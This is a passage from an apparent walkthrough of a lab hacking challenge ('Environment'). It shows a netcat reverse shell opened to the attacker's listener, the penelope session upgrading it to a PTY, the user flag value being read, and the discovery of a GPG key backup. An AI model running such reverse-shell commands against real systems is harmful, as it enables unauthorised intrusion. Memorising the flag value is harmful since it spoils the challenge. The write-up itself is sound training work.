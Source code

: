 Use this `nc 10.10.16.36 3333` to get the reverse shell.

> *Be sure to check if there is `nc` via `which nc` command.*

```bash
└─$ penelope -p 3333     
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from environment~10.129.9.78-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/environment~10.129.9.78-Linux-x86_64/2025_08_20-01_25_23-284.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@environment:~/app/storage/app/public/files$
```

Got our reverse shell.

```bash
www-data@environment:/home/hish$ ls -la
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Aug 20 15:26 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Aug 20 13:01 user.txt
www-data@environment:/home/hish$ cat user.txt
300f5c0f5b0488eea9f2c5029c674e9d
```

Grab the `user.txt` flag.

## Initial Access
After we intial in as **www-data** user, we recon around to see what we can do.

### GNU Privacy Guard
```bash
www-data@environment:/home/hish/backup$ ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Aug 20 15:26 keyvault.gpg
```
